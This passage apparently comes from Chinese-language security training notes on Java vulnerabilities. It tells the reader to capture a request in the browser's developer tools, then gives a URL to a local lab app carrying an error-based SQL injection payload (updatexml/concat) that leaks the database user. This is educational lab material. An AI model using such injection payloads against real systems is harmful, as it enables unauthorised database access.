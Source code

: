 ![image-20250804142259508](./images/JAVA%E6%94%BB%E9%98%B2-%E5%B8%B8%E8%A7%84%E6%BC%8F%E6%B4%9E&SQL%E6%B3%A8%E5%85%A5%E5%9B%9B%E7%B1%BB%E5%9E%8B&XXE%E5%BC%95%E7%94%A8%E7%82%B9&RCE%E5%8E%9F%E7%94%9F&%E6%A1%86%E6%9E%B6URL%E8%B7%B3%E8%BD%AC&URL%E5%A4%84%E7%90%86%E7%B1%BB/image-20250804142259508.png)

打开浏览器开发者模式抓取Run的数据包，

![image-20250804142347590](./images/JAVA%E6%94%BB%E9%98%B2-%E5%B8%B8%E8%A7%84%E6%BC%8F%E6%B4%9E&SQL%E6%B3%A8%E5%85%A5%E5%9B%9B%E7%B1%BB%E5%9E%8B&XXE%E5%BC%95%E7%94%A8%E7%82%B9&RCE%E5%8E%9F%E7%94%9F&%E6%A1%86%E6%9E%B6URL%E8%B7%B3%E8%BD%AC&URL%E5%A4%84%E7%90%86%E7%B1%BB/image-20250804142347590.png)

http://127.0.0.1:8001/sqli/jdbc/vul1?username=test&password=1%27%20and%20updatexml(1%2Cconcat(0x7e%2C(SELECT%20user())%2C0x7e)%2C1)%20AND%20%271%27%3D%271&type=add&_=1754288530545
